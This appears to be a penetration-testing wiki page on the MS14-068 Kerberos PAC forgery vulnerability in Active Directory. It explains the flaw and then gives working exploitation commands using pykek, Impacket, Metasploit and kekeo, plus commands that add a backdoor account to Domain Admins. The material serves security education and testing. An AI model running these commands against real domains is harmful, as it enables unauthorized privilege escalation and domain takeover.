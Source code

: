 ```yaml
---
description: CVE-2014-6324
authors: ShutdownRepo, sckdev
category: ad
---
```


# MS14-068

## Theory

This vulnerability allows attackers to forge a TGT with high privileges (i.e. with a modified PAC stating the user is a member of privileged groups). This attack is similar to the [Golden ticket](golden.md), however, it doesn't require the attacker to know the `krbtgt`. This attack is a really powerful privilege escalation technique, however, it relies on a 2014 bug and will not work on patched domain controllers.

This vulnerability is possible due to a misvalidation of the PAC signature, allowing to craft a PAC granting powerful rights to a user while still being legitimate in the eyes of the KDC(Key Distribution Center). Contrary to what Microsoft doc states [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-pac/6e95edd3-af93-41d4-8303-6c7955297315?redirectedfrom=MSDN), there are more than three `SignatureTypes` accepted by the KDC : before MS14-068 patch, a signature was considered valid by `KdcVerifyPacSignature` if its size was <= 20 bytes. Therefore, it was possible to sign a PAC with a non-keyed hashing algorithm such as MD5 and have this PAC be considered valid.

> [!TIP]
> A non-keyed algorithm is a type of encryption that does not use a key to encrypt or decrypt the data. It uses instead a fixed algorithm, which makes it much less secure than a keyed algorithm. Non-keyed algorithms are usually easier to crack or break because they do not have the added security of a key to protect the data.

The exploitation goes as follow:

1. A PAC-less TGT is obtained via an AS-REQ with the `PA-PAC-REQUEST` attribute set to false. This will be used in a later step.
2. A PAC indicating an account membership to powerful groups in the domain is forged and "signed" with MD5 (or any other non-keyed algorithm listed [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/c6dabc82-0792-4475-a44e-ae9b640d2613)).
3. A TGS-REQ message, requesting a service ticket targeting the KRBTGT service (i.e. a TGT-like) is sent to the vulnerable KDC, using the forged PAC from step (2) encrypted with a sub-session key (usually the session key) and included in the TGT from step (1).
4. In response to step (3), a new TGT containing the forged PAC will be received from the vulnerable KDC after its validation of the forged PAC (the vulnerability happens here).

The newly obtained TGT can be use like a [golden ticket](golden.md), with [pass-the-ticket](../ptt.md), to perform privileged various actions.

## Practice

::: tabs

=== UNIX-like

> [!TIP]
> Referring to [kekeo](https://github.com/gentilkiwi/kekeo/wiki/ms14068)'s wiki might help untangle some situations but errors like `KDC_ERR_SUMTYPE_NOSUPP (15)` or `KRB_ERR_GENERIC (60)` when trying to use the generated `.ccache` ticket should mean the target is patched.

**PyKEK**

This attack can be operated with [pykek](https://github.com/mubix/pykek)'s [ms14-068](https://github.com/mubix/pykek/blob/master/ms14-068.py) Python script. The script can carry out the attack with a cleartext password or with [pass-the-hash](../../ntlm/pth.md).

In order to operate the attack, knowing a domain account’s name, its password (or hash) and its SID are needed.

A TGT can then be obtained with one of the following commands.

```bash
# with a plaintext password
ms14-068.py -u "$BASICUSER"@"$DOMAIN_FQDN" -p "$PASSWORD" -s "$BASICUSER_SID" -d "$DC_HOST"

# with pass-the-hash
ms14-068.py -u "$BASICUSER"@"$DOMAIN_FQDN" --rc4 "$NT_HASH" -s "$BASICUSER_SID" -d "$DC_HOST"
```

Once the `.ccache` TGT is obtained, if the attack is successful, the ticket will be usable with [pass-the-ticket](../ptt.md). An easy way to check if the TGT works is to use it and ask for a service ticket. This can be done with Impacket's [getST.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) (Python).

```bash
getST.py -k -no-pass -spn 'any_valid_spn' "$DOMAIN"/"$USER"
```

This step will only make sure the TGT works though. It will not indicate for sure that the attack worked. This is because a patched DC could ignore the forged PAC and include a legitimate PAC instead. But the TGT would still be valid. It would simply be "unprivileged". Trying to use the service ticket for a privileged taks, [DCSync](../../credentials/dumping/dcsync.md) for instance, is advised.

> [!TIP]
> Another way of knowing, for sure, if the target DC is patched or not is to decrypt the ticket obtained with [describeTicket.py](https://github.com/fortra/impacket/pull/1201) and make sure the PAC features the privileged groups (512, 518, 519, 520). If the privileged groups are missing, it means the DC is patched and the forged PAC was ignored and replaced with a legitimate one. Knowing the krbtgt key is needed, so this would best fit a whitebox audit scenario (or successful pentest).

> [!NOTE]
> In some scenarios, I personally have had trouble using the `.ccache` ticket on UNIX-like systems. What I did was [convert it](../ptt.md#practice) to `.kirbi`, switch to a Windows system, inject the ticket with mimikatz's using[`kerberos:ptt`](https://tools.thehacker.recipes/mimikatz/modules/kerberos/ptt) command, and then create a new user and add it to the domain admins group.
> 
> ```bash
> net user "hacker" "132Pentest!!!" /domain /add
> net group "Domain Admins" /domain /add
> ```

---
**Impacket (goldenPac.py)**

The attack can also be carried out automatically using Impacket's [goldenPac.py](https://github.com/fortra/impacket/blob/master/examples/goldenPac.py) (Python). This tool conducts the attack and tries to open a privileged session using the obtained TGT and PsExec. The TGT can be stored locally with the `-w path` parameter.

```bash
goldenPac.py "$DOMAIN_FQDN"/"$USER":"$PASSWORD"@"$DC_HOST" -dc-ip "$DC_IP"
```

---
**Metasploit Framework**

The Metasploit Framework can also be useful in the sense that it prints valuable error information.

```bash
msf6 > use admin/kerberos/ms14_068_kerberos_checksum
```


=== Windows

**Kekeo**

Prerequisite : Build ms14068.exe following [kekeo's documentation](https://github.com/gentilkiwi/kekeo#readme).

```batch
# NB : ms14068.exe can act in two ways
# /ticket : Write the obtained ticket on disk with default name tgt.kirbi
# /ptt : Pass-the-ticket by directly injecting the obtained TGT into LSA

# with password
# domain SID and user RID are automaticaly discovered
ms14068.exe /domain:$domain /user:$user /password:$password /kdc:$VULN_KDC_FQDN

# with an NT hash
# AES-128 and AES-256 keys are also usable with /aes128 and /aes256 respectively
# note that automatic discovery of the user SID is not possible when using hash 
ms14068.exe /domain:$domain /user:$user /key:$krbtgt_NThash /sid:$DomainSID /rid:$userRelativeID /kdc:$KDC_FQDN
```

:::


## Resources

[https://labs.withsecure.com/publications/digging-into-ms14-068-exploitation-and-defence](https://labs.withsecure.com/publications/digging-into-ms14-068-exploitation-and-defence)

[https://ruuand.github.io/MS14-068/](https://ruuand.github.io/MS14-068/)

[https://adsecurity.org/?p=525](https://adsecurity.org/?p=525)

[https://adsecurity.org/?p=541](https://adsecurity.org/?p=541)

[https://www.beyondtrust.com/blog/entry/a-quick-look-at-ms14-068](https://www.beyondtrust.com/blog/entry/a-quick-look-at-ms14-068)

[https://github.com/gentilkiwi/kekeo/wiki/ms14068](https://github.com/gentilkiwi/kekeo/wiki/ms14068)